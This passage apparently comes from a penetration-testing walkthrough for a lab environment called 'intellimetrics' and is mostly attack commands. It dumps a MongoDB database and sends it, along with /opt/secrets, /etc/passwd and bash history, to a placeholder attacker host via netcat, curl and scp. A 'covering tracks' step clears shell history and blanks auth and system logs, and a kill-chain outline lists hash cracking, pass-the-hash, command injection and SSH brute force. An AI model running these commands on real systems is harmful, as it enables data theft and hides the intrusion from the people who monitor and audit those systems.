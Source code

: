 ### 4.7 Data Exfiltration

```bash
# Dump MongoDB
mongosh mongodb://mongo:27017/intellimetrics --eval "db.companies.find().forEach(printjson)" > /tmp/db_dump.json

# Exfiltrate via netcat
nc <attacker-ip> 5555 < /tmp/db_dump.json

# Or via HTTP
curl --data-binary @/tmp/db_dump.json http://<attacker-ip>:8000/upload

# Or via SCP
scp -P 22 /tmp/db_dump.json attacker@<attacker-ip>:/tmp/

# Compress and exfiltrate
tar czf /tmp/loot.tar.gz /opt/secrets /home/admin/.bash_history /etc/passwd
base64 /tmp/loot.tar.gz > /tmp/loot.b64
curl --data-binary @/tmp/loot.b64 http://<attacker-ip>:8000/
```

---

## 🛡️ Phase 5: Covering Tracks (Optional)

```bash
# Clear bash history
history -c
cat /dev/null > ~/.bash_history

# Clear logs
sudo cat /dev/null > /var/log/auth.log
sudo cat /dev/null > /var/log/syslog

# Remove uploaded files
rm /app/uploads/shell.sh
rm /tmp/db_dump.json
rm /tmp/loot.tar.gz
```

---

## 📋 Kill Chain Summary

```
1. RECONNAISSANCE
   ├─ nmap scan → Discover services (8080, 8081, 8082, 2222, 27017, 4321)
   └─ Service enumeration → Identify technologies

2. ENUMERATION
   ├─ API Gateway → Exposed secrets, debug info
   ├─ Auth Service → NTLM hashes, user list
   ├─ File Service → LFI, directory listing
   └─ MongoDB → No authentication

3. EXPLOITATION
   ├─ Crack passwords → john/hashcat
   ├─ Pass-the-hash → Direct hash usage
   ├─ Command injection → RCE on API gateway
   ├─ SSH bruteforce → Access to SSH server
   └─ File upload → Arbitrary code execution

4. POST-EXPLOITATION
```